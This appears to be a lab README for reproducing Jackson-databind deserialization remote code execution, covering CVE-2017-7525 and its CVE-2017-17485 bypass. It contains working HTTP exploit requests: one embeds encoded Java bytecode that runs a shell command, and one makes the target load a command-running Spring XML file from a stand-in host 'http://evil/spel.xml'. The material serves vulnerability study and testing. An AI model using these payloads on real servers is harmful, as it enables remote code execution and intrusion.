


# Jackson-databind Deserialization Remote Command Execution (CVE-2017-7525)

[中文版本(Chinese version)](README.zh-cn.md)

Jackson Databind is a popular Java library used for serializing Java objects to JSON (JavaScript Object Notation) and deserializing JSON back into Java objects.

Jackson-databind supports [Polymorphic Deserialization](https://github.com/FasterXML/jackson-docs/wiki/JacksonPolymorphicDeserialization) feature (which is disabled by default). Attackers are able to use this feature to perform remote code exection.

References:

- [JacksonPolymorphicDeserialization](https://github.com/FasterXML/jackson-docs/wiki/JacksonPolymorphicDeserialization)
- [Exploiting the Jackson RCE: CVE-2017-7525](https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/)
- [jackson-rce-via-spel](https://github.com/irsl/jackson-rce-via-spel)
- [Jackson Deserializer security vulnerability](https://github.com/FasterXML/jackson-databind/commit/60d459cedcf079c6106ae7da2ac562bc32dcabe1)

## Vulnerable environment

Execute following command to start a web server that uses Jackson 2.8.8:

```shell
docker compose up -d
```

After the server is started, `http://your-ip:8080/` is your web page.

## Exploit

### CVE-2017-7525

Send following request to use the `TemplatesImpl` to execute Java bytescode, which contains command `touch /tmp/prove1.txt`:

```
POST /exploit HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 1298

{
  "param": [
    "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    {
      "transletBytecodes": [
  "yv66vgAAADMAKAoABAAUCQADABUHABYHABcBAAVwYXJhbQEAEkxqYXZhL2xhbmcvT2JqZWN0OwEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAcTGNvbS9iMW5nei9zZWMvbW9kZWwvVGFyZ2V0OwEACGdldFBhcmFtAQAUKClMamF2YS9sYW5nL09iamVjdDsBAAhzZXRQYXJhbQEAFShMamF2YS9sYW5nL09iamVjdDspVgEAClNvdXJjZUZpbGUBAAtUYXJnZXQuamF2YQwABwAIDAAFAAYBABpjb20vYjFuZ3ovc2VjL21vZGVsL1RhcmdldAEAEGphdmEvbGFuZy9PYmplY3QBAAg8Y2xpbml0PgEAEWphdmEvbGFuZy9SdW50aW1lBwAZAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwwAGwAcCgAaAB0BABV0b3VjaCAvdG1wL3Byb3ZlMS50eHQIAB8BAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7DAAhACIKABoAIwEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQHACUKACYAFAAhAAMAJgAAAAEAAgAFAAYAAAAEAAEABwAIAAEACQAAAC8AAQABAAAABSq3ACexAAAAAgAKAAAABgABAAAABgALAAAADAABAAAABQAMAA0AAAABAA4ADwABAAkAAAAvAAEAAQAAAAUqtAACsAAAAAIACgAAAAYAAQAAAAoACwAAAAwAAQAAAAUADAANAAAAAQAQABEAAQAJAAAAPgACAAIAAAAGKiu1AAKxAAAAAgAKAAAACgACAAAADgAFAA8ACwAAABYAAgAAAAYADAANAAAAAAAGAAUABgABAAgAGAAIAAEACQAAABYAAgAAAAAACrgAHhIgtgAkV7EAAAAAAAEAEgAAAAIAEw=="
      ],
      "transletName": "a.b",
      "outputProperties": {}
    }
  ]
}
```



This exploit can only be used in environments with Java versions lower than 7u21.

### CVE-2017-17485

Jackson released a [patch](https://github.com/FasterXML/jackson-databind/commit/60d459cedcf079c6106ae7da2ac562bc32dcabe1) to fix CVE-2017-7525, but CVE-2017-17485 used `org.springframework.context.support.FileSystemXmlApplicationContext` to bypass it.

To reproduce CVE-2017-17485, prepare a evil XML content on your server, such as `http://evil/spel.xml`:

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans
     http://www.springframework.org/schema/beans/spring-beans.xsd
">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg>
            <array>
                <value>touch</value>
                <value>/tmp/prove2.txt</value>
            </array>
        </constructor-arg>
        <property name="any" value="#{ pb.start() }"/>
    </bean>
</beans>
```

Then, send following request to load the evil XML and execute command `touch /tmp/prove2.txt`:

```
POST /exploit HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 138

{
  "param": [
    "org.springframework.context.support.FileSystemXmlApplicationContext",
    "http://evil/spel.xml"
  ]
}
```


